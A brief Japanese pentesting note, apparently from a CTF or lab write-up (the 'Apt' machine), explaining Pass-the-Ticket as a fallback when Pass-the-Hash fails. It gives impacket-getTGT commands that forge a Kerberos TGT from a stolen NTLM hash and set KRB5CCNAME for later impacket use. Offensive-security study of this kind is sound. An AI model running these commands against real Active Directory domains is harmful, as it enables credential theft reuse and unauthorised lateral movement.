 # Pass The Hashがいけそでいけねー場合はPass The Ticketを狙うべし

Kerberosチケットでの認証は許可されていて、NTLMでの認証は許可されていないかも。

**impacket-getTGT** でハッシュからTGTを作成。

```
impacket-getTGT -hashes <NTLM hash> -dc-ip <IP> <domain>/<username>
```

その後、チケットがつくれてuser.ccacheに保存されたら、以下のようにチケットを登録する：

```
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
```

チケットができたら、今までpass the hashでやっていたimpacketを、このチケットをつかって行えばよい（オプション **-no-pass -k**）。

Aptではbruteforceした：

![gettgtbrute](https://user-images.githubusercontent.com/85237728/159113359-050c0e98-259d-406a-aff3-7230cc59e61a.png)

c.f. https://www.thehacker.recipes/ad/movement/kerberos/ptk

![gotticket](https://user-images.githubusercontent.com/85237728/159119239-5d4bf0fc-c1ed-4e54-9b3c-d47a97ff4ae1.png)
